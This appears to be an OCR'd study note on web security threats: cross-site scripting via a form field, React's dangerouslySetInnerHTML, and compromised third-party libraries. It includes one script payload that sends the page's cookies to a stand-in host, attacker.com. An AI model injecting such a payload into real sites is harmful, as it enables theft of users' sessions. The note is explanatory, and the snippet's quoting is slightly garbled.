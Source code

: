 ## aszCross-site scripting (XSS)
- If a hacker is able to execute hacker's JavaScript code then hacker can steal cookies or token. If a hacker is able to execute following JavaScript code then hacker will have access to someone else's cookie:

- puts in the <script></script> value for address1 while filling out the form:
```html
<script>
  new Image().src="http://attacker.com?cookie='+document.cookie;
</script>
```

- `dangerouslySetInnerHTML` application is vulnerable to XSS attack.

### Compromising third party libraries
- If the third-party library is hacked, then the hacker is able to inject malicious JavaScript code in the page.
